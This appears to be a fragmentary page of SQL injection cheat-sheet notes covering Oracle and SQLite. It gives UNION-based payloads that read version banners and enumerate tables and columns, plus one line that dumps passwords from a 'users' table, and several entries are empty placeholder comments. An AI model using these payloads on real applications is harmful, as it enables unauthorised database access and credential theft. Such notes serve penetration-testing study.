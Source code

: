### Old Notes

```sql
UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables
```

```sql
column_name FROM information_schema.columns WHERE table_name='users'
```
	Retrieves column names from the _users_ table  

```sql
UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME='users'
```
 
#### Oracle
```sql
(SELECT banner FROM v$version)
```
	DB metadata  

-- Shows db version  
-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table  

#### sqlite  
```sql
sqlite_schema  
sqlite_master
```
	DB metadata  

```sql
sqlite_version()
```
	Shows db version  


-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  

```sql
(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
```
	Enumerates through all tables listed in schema  

```sql
(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')
```
	Retrieves column names from the _user_s table  

```sql
UNION SELECT 1,group_concat(password) FROM users-- -
```
	Dump passwords from _users_ table  
  